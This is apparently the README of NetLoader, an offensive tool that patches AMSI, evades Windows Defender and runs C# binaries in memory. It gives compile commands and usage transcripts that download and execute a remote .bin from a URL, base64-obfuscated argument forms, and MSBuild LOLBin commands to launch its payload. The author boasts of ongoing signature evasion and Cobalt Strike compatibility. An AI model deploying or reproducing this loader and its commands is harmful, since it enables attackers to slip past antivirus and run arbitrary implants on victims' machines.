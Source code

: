 # NetLoader
Loads any C# binary in mem, patching AMSI and bypassing Windows Defender

The binaries in this repo SHOULD be all clean and newly compiled from their respective GitHub repos, but feel free to compile / host your own.
(Don't consider running binaries from this repo good OPSEC) 

Latest update / signature fix was 09.06.2020, clean as a whistle
Currently doing 24/7 signature checks, so let's see how long it takes this time

Code is designed to deploy binaries from a GitHub repo, so should be straight forward.

1. Clone your own repo from this
2. Change the url on line 13 in Program.cs
3. Re-Compile / add your own binaries in /Binaries (Regex looks for .bin only!)
3. Build and enjoy!

# Compile
Changed because Defender added some signatures related to VS ressources.
(Also just way simpler)

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Usage
Deploy from remote URI

	PS D:\NetLoader> .\NetLoader.exe https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin whoami
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik


Deploy from local path or SMB share, note that NetLoader detects whether the input path is local or remote)

	.\NetLoader.exe --path D:\Tools\Stracciatella.bin --args whoami
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting D:\Tools\Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik


Supports base64 inputs for those long strings that usually would break stuff!

	PS D:\NetLoader> .\NetLoader.exe b64 aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL05ldExvYWRlci9yYXcvbWFzdGVyL0JpbmFyaWVzL1N0cmFjY2lhdGVsbGEuYmlu d2hvYW1p
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik
	PS D:\NetLoader>


	PS D:\NetLoader> .\NetLoader.exe --b64 --path aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL05ldExvYWRlci9yYXcvbWFzdGVyL0JpbmFyaWVzL1N0cmFjY2lhdGVsbGEuYmlu --args d2hvYW1p
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik

Should be Cobalt Strike friendly ! :) 

Credits to https://twitter.com/_RastaMouse for the AMSI bypass
-> https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs

# LOLBins

Payload for MSBuild is in the repo (LOLBins) folder, might push this for varius other LOLBins aswell.

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml

# Todo
- [ ]  Automate the build and release of many of the Sharp Tools so they automagically appear in /Binaries (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [ ]  Add some missing stuff SharpSploit and SharpShell (Need to fix some deps)
- [ ]  Propely confirm and test every current bin
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [ ]  Update with credits and links to the github repos that /Binaries are compiled from
